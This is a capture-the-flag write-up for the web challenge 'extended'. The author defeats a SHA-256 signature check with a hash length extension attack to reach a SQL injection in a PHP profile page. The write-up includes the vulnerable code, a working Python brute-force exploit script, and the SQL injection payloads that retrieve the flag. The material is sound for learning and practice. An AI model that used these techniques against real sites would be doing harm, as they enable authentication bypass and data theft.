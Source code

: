 # extended
by Halogen
> Seems like an extensive authentication system
## Solution
When we first open the website, we see a Jaga Authentication (predictable as above). 
![extended.png](./assets/extended.png)
With authentication, one usually thinks of SQL injection, and indeed we do see it is SQL injectable in the code base, as shown in the PHP (**BAD** langauage) snippet below. This can be found in `profile.php`
```php
$user = $db->prepare("SELECT * FROM j4g4_us3rs WHERE uid = '$uid'");
```

So now, what is `uid`? Following the code upstream, we see that it is a randomly generated hex string given on registering. And that 0 ensures we are not admin :(
```php
$uid = bin2hex(random_bytes(32));
$user = $db->prepare("INSERT INTO j4g4_us3rs (uid, username, password, role) VALUES (?, ?, ?, 0)");
$user->execute([$uid, $username, md5($password)]);
```

But look, uid is given as a url param when going to `profile.php`, so we can just inject our code there? Well no, that gives us a 404 error
![extended.png](./assets/extended_failed.png)
We need to dig deeper!

In `profile.php` we see this snippet of code
```php
$uri = explode('|', substr($_SERVER["REQUEST_URI"], strpos($_SERVER["REQUEST_URI"], "?") + 1));
$paramstr = urldecode($uri[0]);
$params = parse_url('?' . $paramstr);
parse_str($params['query'], $params);
$sig = $uri[1];

if ($sig !== hash("sha256", $SECRET . $paramstr)) {
	http_response_code(404);
	include('404.php');
	die();
}
```
We see that the `uid` parameter has a signature, such that when `SECRET . paramstr` is hashed using `sha-256`, we get `sig` again. `sig` is passed alongside the `uid` with a delimiter `|`. So the url we need should have the format

`http://localhost:3273/profile.php?uid=<$uid>|<$sig>`

Now we see that we cannot just replace uid with the SQL injection as there is a check with the hidden string `SECRET`. However, we could just extend (woah question name) the uid by appending the SQL injection to it, keeping some parts of the original string and its hash. Would this even work? YES.

## Length Extension Attack
A length extension attack can be done on `sha-256`, the hashing algorithm used to check against `sig`. It is basically crypto magic, and if you want to find out the details you can go [here](https://en.wikipedia.org/wiki/Length_extension_attack).
Here is how it works. 
> **The Attack**
> Using $M$ and $HASH(SECRET . M)$ and the length of $SECRET$. \
> We can use get $HASH(SECRET.M.PADDING.E)$. 
> 
> $M$ is the original message, here it is the `uid` \
> $SECRET$ is the secret string, which also appears here \
> $PADDING$ is just some specific characters to perform the attack. \
> $E$ is our message to append, which will be our SQL injection.

Using a [library](https://github.com/stephenbradshaw/hlextend) we found, we can perform the length extension attack and get our SQL injection signed. As for the lenght of $SECRET$, we just brute forced, since it is only from 16 to 32, and found that it works when the length is 28.
<u>Bruteforce Script</u>
```python
import hlextend, requests 

for i in range(16, 33): 
	sha = hlextend.new('sha256')
	print(i, requests.get("http://<site>/profile.php?" +
		sha.extend( "' or role=1--",
		"uid=b526a1e66e5cd6c998510ed8e36bb91ba247c11d2c39f191d25f52126d06e73b", 
		i,
		"953e3e0eb6e871a8c0f5441f11aca4723e3237d2ce5904d3f03915fbc050e99d" 
	) + '|' + sha.hexdigest()).text)
```

Afterwards we inserted our SQL injection (finally) and get our flag. \
SQL Injection: `' UNION SELECT flag, flag, flag, flag, flag FROM j4g4_us3rs WHERE role=1--`
![extended_success.png](./assets/extended_success.png)
Flag: `STF22{h4sh_l3ngth_1nj3ct10n_1s_4w3s0m3}`
